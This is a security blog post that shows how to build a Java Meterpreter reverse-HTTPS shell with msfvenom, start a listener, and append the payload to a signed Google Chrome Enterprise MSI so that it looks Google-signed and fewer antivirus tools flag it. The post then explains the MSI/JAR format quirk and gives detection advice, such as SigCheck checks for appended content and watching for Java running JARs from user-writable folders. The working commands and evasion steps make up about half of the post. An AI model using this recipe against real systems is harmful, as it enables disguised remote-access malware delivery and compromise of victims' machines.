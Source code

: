 ```yaml
---
layout: post
title: "Making Meterpreter Look Google Signed"
date: 2019-01-18
categories: meterpreter chrome msfvenom jar metasploit
permalink: /making-meterpreter-look-google-signed/
---
```


In this post I’ll use some of the information made public by VirusTotal in a [recent blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html) and show how you can easily create a Metasploit Meterpreter payload and append it to a signed MSI file. This will allow you to leverage the code signing from the MSI file to make your payload appear legitimately signed by Google, Inc. After I’ll cover a bit of discussion on why this technique is dangerously significant and how to investigate for its use.
We need a few prerequisites to start-

- Msfvenom
- A Google Chrome Enterprise MSI installer file
- A handler to listen for your Meterpreter session

To start, we need a Meterpreter payload in Java Archive (JAR) form. We can get this using msfvenom:

```
msfvenom -p java/meterpreter/reverse_https LHOST=<metasploit host> -f jar -o meterpreter-https.jar
```

This will output a JAR file containing the Java Meterpreter payload establishing a reverse shell over HTTPS. The payload provides us encryption to obscure commands while blending in with other HTTPS traffic. Feel free to leave the default port option, 8443, unchanged in this example. If we examine this generated payload with VirusTotal, we can see it’s definitely malicious and not signed in any way.

[https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details](https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details)

![](/assets/images/meterpreter-msi-jar/msfvenom-meterpreter-jar.png)

While here, go ahead and configure a handler to receive your Meterpreter session. In the Metasploit console, execute:

```
handler -p java/meterpreter/reverse_https -H 0.0.0.0 -P 8443
```

![](/assets/images/meterpreter-msi-jar/msf-reverse-handler.png)

Now we can use a Windows command prompt (cmd.exe) and the copy command to append our JAR file to an existing, signed MSI file. If you insist on using Linux or macOS to stage the payload, you can probably do the same append using DD. For this exercise I chose a Google Chrome Enterprise MSI installer file.

```
copy /b GoogleChromeStandaloneEnterprise64.msi + meterpreter-https.jar GoogleChromeStandaloneEnterprise64.jar
```

This action performs a binary file copy, combining the MSI and JAR files together to create a new JAR file.

![](/assets/images/meterpreter-msi-jar/copy-append-msi.png)


Now that the file exists, right-click and examine the file’s properties:

![](/assets/images/meterpreter-msi-jar/signing-info.png)

If we examine the file’s properties with VirusTotal, we can see the digital signature still exists, but it’s not valid according to VT’s tools. As a bonus, the file is detected by far fewer AV technologies than just the raw, non-appended payload.

[https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details](https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details)

Now we can actually execute the payload by double-clicking. Assuming everything has gone correctly, Meterpreter will execute within Java and connect back to your handler.

![](/assets/images/meterpreter-msi-jar/meterpreter-session.png)

From here you can move about the host with the privileges of whatever user executed the payload.

![](/assets/images/meterpreter-msi-jar/ls-results.png)

At the end of this path, you’ve generated a Meterpreter payload that isn’t signed itself but appears to be signed thanks to a quirk introduced by interactions between MSI and JAR files.

## How Is This Possible?
This trick is possible due to an issue with the MSI file format disclosed by VirusTotal in [this blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html). MSI files are compound storage files that resemble databases comprised of OLE streams. This means that the content of an MSI is not truly altered when appending data to the file. The OLE streams still exist within the file, and appended data exists outside those streams. Unfortunately, DFIR professionals are conditioned to playing by code signing rules for portable executables (PEs). In these cases, code signing is a method of ensuring executable code integrity from the publisher to the consumer. Changes to the PE file will cause a mismatch and invalidate the signing data. In the case of an MSI file, appending may not harm the original file’s integrity, so the signing information is still valid. The appended payload remains a stowaway.
When the file retains a MSI extension, it will open using Windows Installer/msiexec.exe. When the file gains a JAR extension, it will open with Java given its file association. When you inspect the file’s properties, the magic number/header bytes for the file identify it as a OLE Compound File, allowing tools to parse data within and read the digital signature.

But how can Java execute a MSI file? Even if it’s renamed? That’s the beautiful part of this technique! JAR files are glorified ZIP archive files. It turns out that Java and other tools that read ZIP data will read the data from the last bytes of a file toward the first, until it encounters ZIP header bytes. In this technique, the ZIP header will occur before the MSI content. So the original MSI is not processed by Java.

## Why Is This Significant?
This is significant because it challenges how we think about digital signatures and code signing. We’ve been conditioned to think a change to a file automatically invalidates a code signature. Instead we need to take into account the variable of individual file format. What matters is the integrity of signature-guaranteed content. We need to recognize that some file changes do not trespass into the guaranteed content. Thus, no integrity is violated.
This also presents another question- Can we reorient software and security controls to recognize when a file should not be associated with appended content? Some investigators and security tools use digital signatures to shortcut decisions on the legitimacy of software. Instead, signatures should be corroborating evidence in the legitimacy decision.

In addition, this technique shows us that traditional code signing is not the only way to generate a signed malicious payload. You can sit your payload next to something already signed if the file format allows.
What value does this give adversaries? I think the technique is best suited for payload delivery. Yes, an adversary may compress files for exfiltration into a ZIP archive and append it to a MSI file to bypass data loss protection controls. I don’t think that value significantly outstrips the use of packing and encryption to hide data in an obfuscated form for exfil.

## Detecting and Investigating
Detecting an appended payload during execution will likely be difficult. Endpoint detection and response tools will observe Java executing the payload, but will not show signature data of the payload itself. Behavioral detection will rely on the payload resembling traits of Java malware. AV technology will recognize file types, but depending on configurations and specifics may not recognize the appended payload. The best way to detect this? Look for Java executing JARs from user-writable folders with suspicious network connections and establishing persistence mechanisms.

Investigating appended payloads is light work with Sysinternals SigCheck after version 2.70. This tool will validate the MSI’s digital signature and flag when appended content is present. This functionality has also been added to VirusTotal. If you want to get the original appended payload and separate it from the MSI, you can use a hex editor and cut/paste bytes after the ZIP header into a new file.